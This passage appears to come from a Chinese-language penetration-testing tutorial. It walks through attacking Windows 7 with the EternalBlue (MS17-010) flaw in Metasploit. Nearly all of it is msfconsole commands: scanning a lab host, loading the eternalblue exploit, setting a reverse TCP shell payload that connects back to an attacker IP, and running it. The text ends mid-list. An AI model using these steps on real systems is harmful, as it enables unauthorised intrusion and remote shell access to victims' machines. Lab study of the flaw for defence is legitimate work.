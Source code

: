 ![image-20220807202421585](../.gitbook/assets/20220807202421.png)

### 1. 使用永恒之蓝攻击 win7

> 前提 开启 445 端口

命令：

```shell
search MS17-010  # 查询相关漏洞exp
use auxiliary/scanner/smb/smb_ms17_010    # 使用验证模块
    show options  # 展示指定模块的参数
    set rhosts 192.168.18.128  # 设置参数
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run # 执行后返回的数据
        [+] 192.168.18.128:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600
        [*] 192.168.18.128:445    - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
back # 返回
use exploit/windows/smb/ms17_010_eternalblue  # 使用指定exp模块
	show options # 展示参数
	set rhosts 192.168.18.128 # 设置参数
	show targets  # 展示当前模块可以攻击的目标
	show payloads  # 展示 payloads  
	set payload payload/windows/x64/shell_reverse_tcp    # 设定要使用的 payload
		set lhost 192.168.18.143  # 设置 payload 的参数
	执行 exp：
    	第一种：
    		run # 执行 payload,当页面出现 WIN 后表示入侵成功
			chcp 65001      # 如果乱码执行此命令
		第二种：
```